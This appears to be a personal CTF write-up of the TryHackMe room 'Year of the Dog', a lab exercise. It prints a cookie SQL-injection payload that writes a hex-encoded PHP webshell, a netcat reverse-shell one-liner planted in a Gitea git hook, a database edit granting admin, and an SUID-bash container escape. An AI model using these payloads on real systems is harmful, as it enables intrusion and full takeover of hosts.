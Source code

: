 ```yaml
---
layout: post
title: CTF Log - Year of the Dog \{THM\}
description: A log of how I did the TryHackMe room Year of the Dog by Muirland Oracle
summary: A log of the THM room "Year of the Dog"
tags: ctf log
minute: 5
---
```

<br/>

> {{ page.description }}

<br/>

# Year of the Dog
## Request Header SQLi
A portscan reveals the only ports: 22, 80. 

The web server seems to have practically no content. The only thing I fuzzed that returned an interesting result was the `id` cookie parameter. Adding a `'` to it causes the website to error out, so it seems like some sort of injection is afoot.

The payload `' union select 1, @@version#` confirms that the cookie `id` parameter is vulnerable to SQL injection. 

I'm able to get a webshell on the server using `' into outfile '/var/www/html/wshell.php' fields terminated by 0x3c3f70687020706173737468727528245f4745545b2263225d293b203f3e#`

A breakdown of that payload:

- `into outfile` - MySQL syntax to place the selected object into a file
- `fields terminated by` - Allows you to choose what data to append to each field in the new file
- `3c3f70687020706173737468727528245f4745545b2263225d293b203f3e` a hex encoded PHP webshell: `<?php passthru($_GET["c"]); ?>`. The `0x` tells MySQL that the following data is hex and should be treated as such. This was done to bypass a web filter that flagged the characters `<>` as malicious.

Using that webshell, I'm able to execute a reverse shell and get a session on the machine as the user `www-data`. 

## Readable Authentication Log
To escalate to the user `dylan`, I found a file named `work_analysis` in that user's home directory. 

The file seemed to be a copy of a locally hosted web application's authentication logs. I grepped for `dylan` in that file and found an entry where the user had accidentally typed their password in the username field. 

Using this password, I'm able to get an SSH session as `dylan`. 

## Database Overwrite & Malicious Git Hook
A check on the active ports showed a Gitea server being served on `127.0.0.1:3000`. I used SSH with the port-forwarding parameter `-L 8090:127.0.0.1:3000` to send connections against my local machine's port `8090` to the address `127.0.0.1:3000` through the SSH connection. 

With this, I'm able to browse the Gitea website. I create a user `test`. 

I use `scp` as `dylan` to download the `Gitea.db` database file. Using `sqlite` I'm able to view the database and make edits to it. I find the user table and notice the `is_admin` parameter and edit that column to make my user an admin.

```
sqlite> select email, is_admin from user;
dylan@yearofthedog.thm|1
test@gmail.com|0

sqlite> update user set is_admin = 1 where email = 'test@gmail.com';
```

Refreshing the page now shows that my user `test` is an admin. 

With admin privileges I'm now able to use the githooks functionality. I create a repo and append this reverse shell code: `mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f` to one of the template scripts in the repo's githooks section. 

It took some trial and error to arrive at that reverse shell. The version of that shell available on PentestMonkey didn't function. Fortunately, a verbose stack trace was displayed in the terminal when the script failed, allowing me to refine the one-liner. 

![[error.png]]

I also did some online research on different types of bash/sh reverse shells.

## Abusing Container Privileges
Naturally, the reverse shell from the githook places me in a container. 

I'm easily able to get root access since `sudo` is available for all commands; I just `sudo -s`. 

Reading through the Gitea documentation and the `app.ini` file for the web server, the `/data` directory within the container maps to a directory on the host machine. 

I navigate to `/bin` with my session as `dylan` and use `python3 -m http.server` to host a web server on port `8000`. 

Within the container, I use `ip a` to see that the container is communicating through the virtual IP of `172.17.0.2`. The gateway address in this subnet would naturally route to the host machine, so I do `wget 172.17.0.1:8000/bash -O /data/bash` to download a copy of the bash binary. 

With `chmod +sx /data/bash` I make the binary executable by anyone and give it the SUID bit. Since I've downloaded it as `root` within the container, the SUID bit will make the binary run as `root`. 

With my session as `dylan` I do `./bash -p` to get a shell as `root`. Here is an explanation of what `-p` is for, taken from the bash man pages:

```
If the shell is started with the effective user (group) id not equal to the real user (group) id, and the **-p**option is not supplied, no startup files are read, shell functions are not inherited from the environment, the **SHELLOPTS**, **BASHOPTS**, **CDPATH**, and **GLOBIGNORE** variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the **-p** option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
```
